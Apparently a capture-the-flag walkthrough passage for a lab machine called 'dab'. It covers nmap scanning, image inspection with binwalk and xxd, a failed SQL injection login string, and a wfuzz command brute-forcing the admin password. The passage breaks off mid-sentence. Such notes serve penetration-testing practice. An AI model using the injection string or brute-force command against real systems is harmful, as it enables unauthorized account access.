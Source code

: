 ```nmap -sC -sV -oA nmap/dab 10.10.10.86```

```binwalk dab.jpg```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549150925627_image.png)


(hex editor)

```xxd dab.jpg | less```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549150974754_image.png)


*No “.zip” or anything out of place identified within the image.*

open dab.jpg

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549151057435_image.png)



Port 22 - SSH
Identifed as “Ubuntu 4ubuntu2.4” possibly Zenial

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549150641359_image.png)


Port 80 & 8080
Identified as “nginx.1.10” web-servers.

Navigate to port 80 webpage

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549151110985_image.png)


Login prompt identified - attempt SQL injection

```Login: admin```
```Pass: ' or '1'='1```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549151294865_image.png)


*login failed.*

continue enumeration of login fields with wfuzz

```wfuzz -h```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549151362803_image.png)

```wfuzz -c --hw 36 -w /usr/share/seclists/Passwords/darkweb2017-top1000 -d 'username=admin&password=FUZZ&submit=login' http:10.10.10.86/login```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549151708471_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549151738896_image.png)


you can hide returns with more than 36 words with 

```
